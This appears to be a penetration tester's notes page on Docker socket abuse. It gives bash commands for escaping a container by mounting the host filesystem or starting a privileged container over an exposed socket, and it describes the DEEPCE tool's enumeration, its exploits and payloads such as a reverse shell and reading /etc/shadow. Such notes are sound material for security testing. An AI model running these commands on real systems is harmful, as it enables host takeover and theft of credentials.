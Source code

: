 Docker's use of Inter-process Communication (IPC) rather than network interface are essential for performance when transferring data to and from a Docker Container. It use Unix sockets, which has Linux file system permissions and why the requirement of a user to be part of the docker group for permissions to access the socket owned by Docker.

Exploitation of Docker Socket within the container
```bash
# Is there a docker socket?
ls -la /var/run | grep sock

# inflitrate the docker container with a bad image
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# May require CTRL+C to cancel the exploit till it works
ls /
chroot /mnt # Now go full linux pirate and board the container 
```

#### Creating Privileged Containers

Use the Docker Client to make a privileged container
```bash
docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/host $image bash $DockerImageName
# Check if Container is operational
docker -H unix:///app/docker.sock ps
# Get Shell on Docker through the Docker Client
docker -H unix:///app/docker.sock exec -it $IDstring /bin/bash
```

## Docker Hacking Tools

#### Docker Client

Download to the Docker Client: [https://master.dockerproject.org/linux/x86_64/docker](https://master.dockerproject.org/linux/x86_64/docker) to interact with Docker Daemons, see [[Docker]] for more legitimate uses and use cases.

#### DEEPCE

[GitHub - deepce](https://github.com/stealthcopter/deepce) - Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE) is: A pure `sh` script with no dependencies, which can make use of additional tools such as `curl`, `nmap`, `nslookup` and `dig` if available to perform in-memory only enumeration. *..however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite `runC` which can be destructive, so be careful!*

The following is the list of enumerations performed by DEEPCE:
- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker soc
Exploits:
- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock
For each of the exploits above payloads can be defined in order to exploit the host system. These include:
- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
